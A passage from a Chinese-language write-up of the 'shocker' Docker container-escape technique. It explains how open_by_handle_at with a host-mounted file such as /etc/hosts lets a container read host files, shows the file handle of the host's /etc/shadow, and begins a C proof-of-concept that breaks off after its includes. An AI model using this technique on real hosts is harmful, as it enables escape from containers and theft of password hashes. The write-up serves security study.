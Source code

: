 `mount_fd`解释如下：

> The mount_fd argument is a file descriptor for any object (file,  
> directory, etc.)  in the mounted filesystem with respect to which  
> handle should be interpreted.  The special value AT_FDCWD can be  
> specified, meaning the current working directory of the caller.

该参数可以是一个已mount文件系统上的任意一个文件的文件描述符，这就是为什么一开始我们poc中，需要将`/.dockerinit` 文件名，改为 `/etc/hosts`，因为我们需要读取宿主机根文件系统中的文件，`/etc/resolv.conf`，`/etc/hostname`，`/etc/hosts`等文件在新版本的docker中，仍然是从宿主机直接挂载的，属于宿主机的根文件系统。

![宿主机根文件系统](images/host-mount-files.png)

`*handle`就非常明确了，我们刚才所分析`name_to_handle_at`所返回的参数。`flags`参数和open类似。

按照官方的例子，使用`open_by_handle_at`读取`name_to_handle_at`所指定的文件内容。[link](https://github.com/foyjog/shocker-attack/blob/main/t_open_by_handle_at.c)

> ```
> $ echo 'Can you please think about it?' > cecilia.txt
> $ ./t_name_to_handle_at cecilia.txt > fh
> $ ./t_open_by_handle_at < fh
> open_by_handle_at: Operation not permitted
> $ sudo ./t_open_by_handle_at < fh      # Need CAP_SYS_ADMIN
> Read 31 bytes
> $ rm cecilia.txt
> ```

### 漏洞利用

如果我们想要在虚拟机中通过`open_by_handle_at`读取宿主机的文件的话，那么需要两个关键的参数。

1. 宿主机文件系统中文件的文件描述符：这个很容易，直接打开/etc/hosts文件获取其文件描述符就行。
2. 宿主机文件的`file_handle`的`handle_bytes`成员（ext4为8），`handle_type`成员（1）和`f_handle`成员（`inodeid`+4个未知字节）。

先在宿主机中查看 `/etc/shadow` 的`file_handle`。

```
$ ./t_name_to_handle_at /etc/shadow
26
8 1    25 18 01 00 c6 fd c8 4d
```

利用上述宿主机文件/etc/shadow的`file_handle`细节，编写如下poc，然后在docker中执行。

```c
#define _GNU_SOURCE
#include <errno.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <limits.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

void die(const char *msg)
{
	perror(msg);
```